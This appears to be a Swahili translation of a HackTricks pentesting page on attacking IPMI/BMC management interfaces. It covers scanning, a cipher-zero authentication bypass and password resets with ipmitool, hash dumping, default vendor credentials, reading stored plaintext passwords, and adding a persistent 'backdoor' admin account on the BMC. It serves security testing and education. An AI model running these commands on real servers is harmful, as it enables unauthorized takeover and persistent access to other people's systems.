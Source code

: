 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Taarifa Msingi

### **Muhtasari wa IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** inatoa njia iliyostandardizwa ya usimamizi na ufuatiliaji wa mbali wa mifumo ya kompyuta, bila kujali mfumo wa uendeshaji au hali ya umeme. Teknolojia hii inaruhusu wasimamizi wa mfumo kusimamia mifumo kwa mbali, hata wakati zimezimwa au hazijibu, na ni muhimu hasa kwa:

- Mipangilio ya awali ya kuanza mfumo
- Usimamizi wa kuzima nguvu
- Kurejesha kutoka kwa kushindwa kwa mfumo

IPMI inaweza kufuatilia joto, voltage, kasi ya kifaa cha kupoza hewa, na ugavi wa umeme, pamoja na kutoa habari ya hesabu, kukagua magogo ya vifaa, na kutuma tahadhari kupitia SNMP. Kwa uendeshaji wake, inahitajika chanzo cha umeme na uhusiano wa LAN.

Tangu kuanzishwa kwake na Intel mnamo 1998, IPMI imeungwa mkono na wauzaji wengi, ikiboresha uwezo wa usimamizi wa mbali, haswa na msaada wa toleo la 2.0 kwa serial juu ya LAN. Sehemu muhimu ni pamoja na:

- **Baseboard Management Controller (BMC):** Kichapishi kikuu cha IPMI kwa shughuli.
- **Mabasi na Viunganishi vya Mawasiliano:** Kwa mawasiliano ya ndani na nje, ikiwa ni pamoja na ICMB, IPMB, na viunganishi mbalimbali kwa uhusiano wa ndani na wa mtandao.
- **IPMI Memory:** Kwa kuhifadhi magogo na data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Bandari ya Default**: 623/UDP/TCP (Kawaida inatumia UDP lakini inaweza pia kuendesha kwenye TCP)

## Uchunguzi

### Ugunduzi
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Unaweza **kutambua** **toleo** kwa kutumia:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### Mipasuko ya Usalama ya IPMI

Katika uwanja wa IPMI 2.0, kasoro kubwa ya usalama iligunduliwa na Dan Farmer, ikifichua kasoro kupitia **aina ya kificho 0**. Kasoro hii, iliyodhibitishwa kwa undani katika [utafiti wa Dan Farmer](http://fish2.com/ipmi/cipherzero.html), inawezesha ufikiaji usiohalali na nenosiri lolote linalotolewa ikiwa mtumiaji halali analengwa. Udhaifu huu uligunduliwa katika BMC mbalimbali kutoka kwa watengenezaji kama vile HP, Dell, na Supermicro, ikionyesha tatizo kubwa katika utekelezaji wa IPMI 2.0.

### **Kupitisha Uthibitishaji wa IPMI kupitia Kificho 0**

Ili kugundua kasoro hii, skana ya ziada ya Metasploit ifuatayo inaweza kutumika:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Udanganyifu wa kasoro hii unaweza kufanikishwa kwa kutumia `ipmitool`, kama inavyoonyeshwa hapa chini, kuruhusu orodha na marekebisho ya nywila za mtumiaji:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Uthibitisho wa Mbali wa Kupata Hash ya Nenosiri la Mbali**

Udhaifu huu unawezesha kupata nywila zilizohifadhiwa kwa chumvi (MD5 na SHA1) kwa jina lolote la mtumiaji lililopo. Ili kujaribu udhaifu huu, Metasploit inatoa moduli:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **Uthibitishaji wa IPMI Usio na Kitambulisho**

Usanidi wa chaguo-msingi katika BMC nyingi huruhusu ufikiaji "usio na kitambulisho", ambao unajulikana kwa kutokuwepo kwa majina ya mtumiaji na nywila. Usanidi huu unaweza kutumiwa kudukua upya nywila za akaunti za watumiaji walio na majina kwa kutumia `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Nenosiri za Wazi za Supermicro IPMI**

Chaguo muhimu katika IPMI 2.0 inahitaji uhifadhi wa nywila za wazi ndani ya BMCs kwa madhumuni ya uwakilishi. Uhifadhi wa Supermicro wa nywila hizi katika maeneo kama vile `/nv/PSBlock` au `/nv/PSStore` unaleta wasiwasi mkubwa wa usalama:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Kujumuishwa kwa msikilizaji wa UPnP SSDP katika firmware ya IPMI ya Supermicro, haswa kwenye bandari ya UDP 1900, inaleta hatari kubwa ya usalama. Udhaifu katika Intel SDK kwa vifaa vya UPnP toleo 1.3.1, kama ilivyoelezwa na [ufichuzi wa Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), inaruhusu ufikiaji wa mizizi kwa BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP inarandarandisha nenosiri la msingi** kwa bidhaa yake ya **Integrated Lights Out (iLO)** wakati wa utengenezaji. Mazoea haya yanatofautiana na wazalishaji wengine, ambao kwa kawaida hutumia **vitambulisho vya msingi vya tuli**. Muhtasari wa majina ya mtumiaji na nywila za msingi kwa bidhaa mbalimbali ni kama ifuatavyo:

- **HP Integrated Lights Out (iLO)** hutumia **herufi ndefu ya wahusika 8 iliyorandarandishwa kiwandani** kama nywila yake ya msingi, ikionyesha kiwango cha juu cha usalama.
- Bidhaa kama **Dell's iDRAC, IBM's IMM**, na **Fujitsu's Integrated Remote Management Controller** hutumia nywila rahisi za kudhani kama "calvin", "PASSW0RD" (na sifuri), na "admin" mtawalia.
- Vivyo hivyo, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, na **ASUS iKVM BMC** pia hutumia vitambulisho vya msingi rahisi, na "ADMIN", "changeme", na "admin" kama nywila zao.

## Kupata Mwenyeji kupitia BMC

Upatikanaji wa kiutawala kwa Baseboard Management Controller (BMC) hufungua njia mbalimbali za kupata mfumo wa uendeshaji wa mwenyeji. Njia rahisi ni kuchexploitisha utendaji wa Keyboard, Video, Mouse (KVM) wa BMC. Hii inaweza kufanywa kwa kuzima upya mwenyeji hadi kwenye kabati la mizizi kupitia GRUB (kwa kutumia `init=/bin/sh`) au kwa kuanza kutoka kwenye CD-ROM ya kisasa iliyowekwa kama diski ya uokoaji. Njia kama hizo zinaruhusu kuingiza mlango nyuma, kuchota data, au kufanya hatua zozote zinazohitajika kwa tathmini ya usalama. Hata hivyo, hii inahitaji kuzima upya mwenyeji, ambayo ni kikwazo kikubwa. Bila kuzima upya, kupata mwenyeji unaoendelea ni ngumu zaidi na inatofautiana na usanidi wa mwenyeji. Ikiwa konsoli ya kimwili au ya serial ya mwenyeji inabaki imeingia, inaweza kuchukuliwa kwa urahisi kupitia KVM ya BMC au utendaji wa serial-over-LAN (sol) kupitia `ipmitool`. Uchunguzi wa utumiaji wa rasilimali za vifaa zilizoshirikiwa, kama vile basi la i2c na chip ya Super I/O, ni eneo ambalo linahitaji uchunguzi zaidi.

## Kuweka Mlango Nyuma kwenye BMC kutoka kwa Mwenyeji

Baada ya kudukua mwenyeji ulio na BMC, **kiolesura cha BMC cha ndani kinaweza kutumika kuweka mlango nyuma**, kuunda uwepo wa kudumu kwenye seva. Shambulio hili linahitaji uwepo wa **`ipmitool`** kwenye mwenyeji uliodukuliwa na kuwezeshwa kwa msaada wa dereva wa BMC. Amri zifuatazo zinaonyesha jinsi akaunti mpya ya mtumiaji inavyoweza kuingizwa kwenye BMC kwa kutumia kiolesura cha ndani cha mwenyeji, ambacho kinapuuza haja ya uwakilishi. Mbinu hii inatumika kwa anuwai ya mifumo ya uendeshaji ikiwa ni pamoja na Linux, Windows, BSD, na hata DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## Marejeo

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
